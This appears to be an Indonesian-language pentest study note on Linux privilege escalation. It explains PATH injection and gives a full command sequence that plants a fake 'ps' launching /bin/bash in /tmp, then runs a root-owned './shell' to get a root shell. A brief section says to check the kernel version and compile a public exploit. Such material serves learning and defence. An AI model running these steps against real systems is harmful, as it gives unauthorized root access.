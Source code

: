 # Path Injection
Path injection terjadi karena pemanggilan binary dengan akses root yang tidak menggunakan full path. Contoh pemangilan yang benar
```
/usr/local/bin/nmap -sV 192.168.1.1
```

Contoh pemanggilan yang salah
```
nmap -sV 192.168.1.1
```
Kenapa kok bisa salah? karena hal ini bisa menjadi celah PATH injection. 

Linux menggunakan PATH untuk memanggil aplikasi tanpa menulis full path. Sama seperti Environment variable di windows. Namun ketika aplikasi ini dipanggil tanpa full path dengan akses root, maka kita bisa melakukan injection agar aplikasi yang dipanggil pertama kali di eksekusi pada direktori yang kita inginkan. 

```
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

Ya jadi contohnya diatas, kita menambahkan $PATH direktori `/tmp` dimana diletakkan di awal, sehingga aplikasi yang tanpa full path tadi akan mencari pertama kali ke folder `tmp`

# Kernel Exploit
Intinya nyari apakah versi kernel vuln. Cara ceknya
`uname -a`
Terus cari exploitnya -> Compile -> Run -> Boom
